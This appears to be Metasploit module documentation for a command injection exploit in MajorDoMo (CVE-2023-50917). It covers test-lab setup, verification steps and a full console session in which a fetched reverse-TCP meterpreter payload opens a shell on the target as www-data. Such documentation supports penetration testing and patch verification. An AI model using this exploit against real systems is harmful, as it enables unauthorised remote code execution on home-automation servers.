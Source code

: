 ## Vulnerable Application

This module exploits a command injection vulnerability in MajorDoMo versions before 0662e5e. To set up a test environment:

1. Download MajorDoMo by executing the following command:
```
curl -s https://raw.githubusercontent.com/sergejey/majordomo-rpi-install/main/install.sh | bash && bash ~/majordomo-rpi-install/install.sh
```
2. Follow the installation script instructions to install MajorDoMo on a Raspberry Pi or a Linux-based server.
3. Ensure that the network interface is active and properly configured during installation.
4. Replace `/var/www/html/modules/thumb/thumb.php` with
https://raw.githubusercontent.com/sergejey/majordomo/1167ca408a911c98937000516588c12cc33a1ab7/modules/thumb/thumb.php.
5. After installation, verify that the MajorDoMo service is operational and accessible over the network.


## Verification Steps

1. Install MajorDoMo with a version prior to 0662e5e.
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/majordomo_cmd_inject_cve_2023_50917`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload.

## Options

No options

## Scenarios

### Successful Exploitation against MajorDoMo

This scenario demonstrates exploiting MajorDoMo on a Linux server.

**Environment**:
- MajorDoMo before 0662e5e
- Linux Server or Raspberry Pi
- Metasploit Framework

**Expected Output**:

```
msf > search cve_2023_50917

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/majordomo_cmd_inject_cve_2023_50917  2023-12-15       excellent  Yes    MajorDoMo Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/majordomo_cmd_inject_cve_2023_50917

msf > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > options 
Module options (exploit/linux/http/majordomo_cmd_inject_cve_2023_50917):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format typ
                                         e:host:port[,type:host:port
                                         ][...]
   RHOSTS                      yes       The target host(s), see htt
                                         ps://docs.metasploit.com/do
                                         cs/using-metasploit/basics/
                                         using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgo
                                         ing connections
   TARGETURI  /                yes       The URI path to MajorDoMo
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch paylo
                                              ad (Accepted: CURL, FT
                                              P, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the
                                              binary after execution
   FETCH_FILENAME  GRigjGGzCVI      no        Name to use on remote
                                              system when storing pa
                                              yload; cannot contain
                                              spaces.
   FETCH_SRVHOST                    no        Local IP to use for se
                                              rving payload
   FETCH_SRVPORT   8080             yes       Local port to use for
                                              serving payload
   FETCH_URIPATH                    no        Local URI to use for s
                                              erving payload
   FETCH_WRITABLE                   yes       Remote writable dir to
   _DIR                                        store payload; cannot
                                               contain spaces.
   LHOST           192.168.1.5      yes       The listen address (an
                                               interface may be spec
                                              ified)
   LPORT           4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > set rhosts 192.168.1.18
rhosts => 192.168.1.18
msf exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > exploit 
[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.18:80 can be exploited!
[+] Target is identified as MajorDoMo instance
[*] Performing command injection test issuing a sleep command of 9 seconds.
[*] Elapsed time: 9.112166871999989 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Sending stage (3045380 bytes) to 192.168.1.18
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.18:60054) at 2023-12-21 23:56:54 +0100

meterpreter > getuid 
Server username: www-data
```

